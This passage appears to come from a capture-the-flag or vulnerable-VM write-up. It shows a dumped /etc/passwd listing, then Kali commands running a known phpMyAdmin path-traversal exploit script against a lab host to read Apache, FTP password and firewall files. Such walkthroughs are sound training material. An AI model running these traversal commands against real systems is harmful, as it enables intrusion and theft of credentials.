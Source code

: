 nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
bind:x:104:111::/var/cache/bind:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:106:115:MySQL Server,,,:/var/lib/mysql:/bin/false
lsanderson:x:1000:114:Lyle Sanderson:/home/lsanderson:/bin/bash
cfinnerly:x:1001:100:Chuck Finnerly:/home/cfinnerly:/bin/bash
ddonnovan:x:1002:100:David Donnovan:/home/ddonnovan:/bin/bash
skrymple:x:1003:100:Shelly Krymple:/home/skrymple:/bin/bash
amckinley:x:1004:100:Agustin Mckinley:/home/amckinley:/bin/bash
cmahong:x:1005:2002::/home/cmahong:/bin/false
lnickerbacher:x:1006:2002::/home/lnickerbacher:/bin/false
jstreet:x:1007:2002::/home/jstreet:/bin/false
rwoo:x:1008:2002::/home/rwoo:/bin/false
kmccallum:x:1009:2002::/home/kmccallum:/bin/false
cjalong:x:1010:2002::/home/cjalong:/bin/false
jsmith:x:1011:2002::/home/jsmith:/bin/false
dhammond:x:1012:2002::/home/dhammond:/bin/false
hmcknight:x:1013:2002::/home/hmcknight:/bin/false
lwestre:x:1014:2002::/home/lwestre:/bin/false
gwelch:x:1015:2002::/home/gwelch:/bin/false
dmoran:x:1016:2002::/home/dmoran:/bin/false
dsummers:x:1017:2002::/home/dsummers:/bin/false
bzimmerman:x:1018:2002::/home/bzimmerman:/bin/false
ncobol:x:1019:2002::/home/ncobol:/bin/false
ddypsky:x:1020:2002::/home/ddypsky:/bin/false
rcropper:x:1021:2002::/home/rcropper:/bin/false
cbergey:x:1022:2002::/home/cbergey:/bin/false
tmartin:x:1023:2002::/home/tmartin:/bin/false
jgacy:x:1024:2002::/home/jgacy:/bin/false
splath:x:1025:2002::/home/splath:/bin/false
evorhees:x:1026:2002::/home/evorhees:/bin/false
rfrost:x:1027:2002::/home/rfrost:/bin/false
ahuxley:x:1028:2002::/home/ahuxley:/bin/false
webmaster:x:1029:2002::/var/www:/bin/false
cmanson:x:1030:2002::/home/cmanson:/bin/false
vftp:x:1031:2002:Virtual FTP User:/dev/null:/bin/false
{% endcodeblock %}

{% codeblock %}
root@kali32:/usr/share/exploitdb# perl platforms/php/webapps/1244.pl http://192.168.1.88 /phpMyAdmin/ ../../../../../../../../etc/apache2/apache2.conf | grep -i log
root@kali32:/usr/share/exploitdb# perl platforms/php/webapps/1244.pl http://192.168.1.88 /phpMyAdmin/ ../../../../../../../../etc/pure-ftpd/conf/PureDB
root@kali32:/usr/share/exploitdb# perl platforms/php/webapps/1244.pl http://192.168.1.88 /phpMyAdmin/ ../../../../../../../../etc/pure-ftpd/pureftpd.pdb
root@kali32:/usr/share/exploitdb# perl platforms/php/webapps/1244.pl http://192.168.1.88 /phpMyAdmin/ ../../../../../../../../etc/init.d/firewall
{% endcodeblock %}
